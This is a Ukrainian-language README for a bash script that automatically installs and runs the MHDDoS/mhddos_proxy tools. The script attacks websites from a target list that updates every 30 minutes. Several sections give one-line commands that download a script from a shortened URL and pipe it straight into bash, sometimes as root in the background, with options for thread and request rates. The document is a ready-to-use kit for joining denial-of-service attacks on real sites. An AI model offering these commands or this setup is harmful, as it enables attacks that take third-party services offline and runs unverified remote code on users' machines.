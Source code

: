 ## 🪖 Bash скрипт (Windows, Linux, WSL2, Віртуальна машина)  

## ❕Опис

### auto_bash - скрипт на bash, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускається однією командою в Linux і WSL2 (Windows Subsystem for Linux). Подальше втручання від користувача не обов'язкове. 
 
```
curl -L tiny.one/autobash | bash
```
* Автоматично встановлює git, python3, pip, mhddos_proxy, MHDDoS, розширений список proxy і всі залежності.

* Праюцює із базою сайтів [Українського женця](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База цілей оновлюється кожні 30 хвилин.

* Під час запуску завжди перевіряє і завантажує оновлення mhddos_proxy і MHDDoS.

Рекомендовано використовувати на Ubuntu 20.04+ або Debian 11+. Але повинно працювати на всіх Debian похідних, наприклад Kali, а також у WSL2.

Для зупинки скрипта закрийте вікно з терміналом.

## ❕Запуск у фоні
Виконувати як root. Інакше скрипт спитає пароль у фоні і ви не зможете його ввести.

```
curl -L tiny.one/autobash | nohup bash &
```
Після цього термінал можна зачиняти і скрипт продовжить працювати в фоні.

## ❕Зміна інтенсивності

Якщо скрипт дуже уповільнює ПК, або навпаки ви маєте невикористані ресурси, можна понизити, або навпаки підвищіти інтенсивність роботи скрипта. Для цього треба керувати параметром `threads`. По замовчуванню `threads = 1000`. Значення потрібно підбирати індивідуально, цифри нижче лише для прикладу. В більшості випадків рекомендується не змінювати значення параметру і використовувати команду по замовчуванню.

Щоб знизити навантаження на систему, спробуйте використати `threads = 500`

```
curl -L tiny.one/autobash | bash -s -- 500
```

Щоб навантажити систему більше, спробуйте використати `threads = 2000`

```
curl -L tiny.one/autobash | bash -s -- 4000
```


## ❕ Передача параметрів (бета версія)
```
curl -L tiny.one/autobash-test | bash -s -- -t 1000 -r 2000 -k 1 --table
```

`-t 1000` - 1000 тредів

`-r 2000` - 2000 rpc

`-k 1` - kill 1 hour. Завершити скрипт через 1 годину роботи

`--table` - увімкнути режим відображення данних в таблиці


## Зупинка скрипту

1. Або просто зачинити термінал (якщо не використовується nohup).

2. Або в іншому терміналі виконати `pkill -f start.py; pkill -f runner.py` а потім натиснути CTRL+C у терміналі з скриптом.

## Запуск на Windows у powershell.

Потрібна лише Windows 7 або вище. Усе інше скрипт зробить самостійно.

https://github.com/mErlin-sp/mhddos_powershell

## Встановлення на Windows.

[Инструкція по встановленнию Python3 і Git на Windows](https://telegra.ph/Vstanovlennya-mhddos-proxy-napryamu-na-vash-komp-03-27). Не тестувалось на сумісність з auto_bash. Дозволяє як мінімум запускати mhddos_proxy командами які надаються в каналі [українського женця](https://t.me/ukrainian_reaper_ddos). У випадку помилок можна написати по координатах, залишених в кінці інструкції.
